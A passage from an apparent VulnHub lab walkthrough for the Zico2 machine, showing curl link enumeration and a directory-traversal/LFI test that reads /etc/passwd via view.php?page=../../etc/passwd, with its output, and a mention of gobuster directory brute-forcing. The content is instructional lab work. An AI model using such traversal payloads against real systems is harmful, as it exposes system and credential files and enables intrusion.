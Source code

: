 ![2.png](/assets/images/posts/zico-2-vulnhub-walkthrough/2.png)

We can use the curl command to view the links on the page. 
```
# curl zico -s -L | grep "src\|href" | sed -e 's/^[[:space:]]*//'
...
<a href="/view.php?page=tools.html" class="btn btn-default btn-xl sr-button">Check them out!</a>
...
```
or just check out the links on the page.
![3.png](/assets/images/posts/zico-2-vulnhub-walkthrough/3.png)

The link looks susceptible to LFI. Testing it out for directory traversal `http://192.168.109.143/view.php?page=../../etc/passwd`

```
# curl zico -s http://192.168.109.143/view.php?page=../../etc/passwd
root:x:0:0:root:/root:/bin/bash 
... 
zico:x:1000:1000:,,,:/home/zico:/bin/bash  
```
Port 80 is open we'll run gobuster to bruteforce the directories. You can run other tools like wfuzz, dirb, dirbuseter or dirsearch;


[1]: https://www.vulnhub.com/entry/billu-b0x-2,238/
[2]: https://twitter.com/@rafasantos5
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator